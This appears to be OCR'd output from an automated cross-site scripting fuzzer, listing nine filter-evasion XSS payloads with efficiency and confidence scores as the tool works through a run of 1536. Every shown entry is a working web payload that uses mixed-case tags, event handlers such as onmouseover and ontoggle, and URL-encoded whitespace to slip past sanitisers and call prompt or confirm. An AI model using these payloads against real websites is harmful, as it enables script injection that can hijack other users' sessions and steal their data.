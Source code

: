 ------------------------------------------------------------
 Payload: <D3V%0aOnMOuSEOVer%09=%09[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 349/1536
 
------------------------------------------------------------
 Payload: <DetAILS%0aONtOgGLE%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 350/1536
 
------------------------------------------------------------
 Payload: <htmL%0doNMoUsEoVeR%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 351/1536
 
------------------------------------------------------------
 Payload: <Html/+/oNmoUSEOVEr%09=%09(confirm)()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 352/1536
 
------------------------------------------------------------
 Payload: <a/+/onpOInteREntER%0d=%0da=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 353/1536
 
------------------------------------------------------------
 Payload: <D3v%0aONMouSEoVer%09=%09(confirm)()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 354/1536
 
------------------------------------------------------------
 Payload: <detAIlS%0dOnPoinTErEnTer%09=%09(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 355/1536
 
------------------------------------------------------------
 Payload: <htMl%09ONpoINTEReNTer+=+confirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 356/1536
 
------------------------------------------------------------
 Payload: <a%09onMouSeoVer%09=%09(prompt)``%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 357/1536
 